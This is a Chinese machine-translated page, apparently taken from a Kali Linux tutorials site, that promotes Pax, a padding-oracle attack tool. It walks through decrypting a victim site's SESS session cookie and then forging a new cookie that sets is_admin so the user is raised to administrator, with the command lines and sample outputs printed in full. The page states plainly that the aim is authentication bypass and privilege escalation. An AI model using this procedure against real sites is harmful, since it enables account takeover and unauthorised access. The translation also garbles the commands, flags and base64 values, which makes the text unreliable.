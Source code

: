 # Pax:用于 PKCS7 填充 Oracle 攻击的 CLI 工具

> 原文：<https://kalilinuxtutorials.com/pax/>

[![](img//dec04b68a6731209fb62289011324068.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjfYv4bNXaisG2Y_EOZ5liEeM0gJYm5bTt2quJcAaBPC0JgVd6hFNZuE5O88QqlMF9BuuesR8Cczm6EAEUd7OiZL62lnFWUn5yHh7my7hcOavikLxDc-DK7YGFd5ivDQ-cnZ3zDPrN_CJLKNlUQfvhp2XvxBAZgxur-P8qo7PlmhwuAjY0Yww830Hun/s728/pax%20(1).png)

**Pax** ，利用填充神谕取乐牟利！

Pax(填充 oracle eXploiter)是一个利用填充 oracle 的工具，目的是:

*   获取给定的 CBC 加密数据的明文。
*   使用 oracle 使用的未知加密算法获取给定明文的加密字节。

这可用于泄露加密的会话信息，通常可用于绕过身份验证、提升权限以及通过加密自定义明文并将其写回服务器来远程执行代码。

与往常一样，该工具只应在您拥有和/或有权探测的系统上使用！

## 安装

从版本下载，或使用 Go 安装:

**去 github.com/liamg/pax/cmd/pax 吧**

## 用法示例

如果您发现一个可疑的 oracle，其中加密的数据存储在一个名为`**SESS**`的 cookie 中，您可以使用以下命令:

**Pax decrypt–URL https://target.site/profile.php–sample gw3g8e 3 EJ 4 ai 9 wffn % 2 FD 0 urqkzyapfm 2 ufq % 2 F8 dw mow 4 nykzhx 07 BG % 3D % 3D–block-size 16–cookie " SESS = gw3g8e 3 EJ 4 ai 9 wffn % 2 FD 0 urqkzyapfm 2 ufq % 2 F8 dwmow 4 nykzhx 07 BG % 3D % 3D "**

这将有望给您一些明文，可能类似于:

**{ "用户 id": 456，" is_admin": false}**

看起来你可以提升你在这里的特权！

您可以尝试这样做，首先生成您自己的加密数据，oracle 会将这些数据解密为一些偷偷摸摸的明文:

**Pax encrypt URL https://target . site/profile . PHP–sample GW 3kg 8 E3 EJ 4 ai 9 wffn % 2 FD 0 urqzyf2f 2 ufq % 8dwmow 4 wnyzhx 07 BG % 3d–block-size 16–cookies–plain-text 456，**

这将产生另一组 base64 编码的加密数据，可能类似于:

**dghpcybpcybqdxn 0 igfuigv 4 yw1 wbgu =**

现在，您可以打开浏览器，将`**SESS**` cookie 的值设置为上面的值。加载原始的 oracle 页面，您现在应该看到您被提升到管理员级别。

[**Download**](https://github.com/liamg/pax)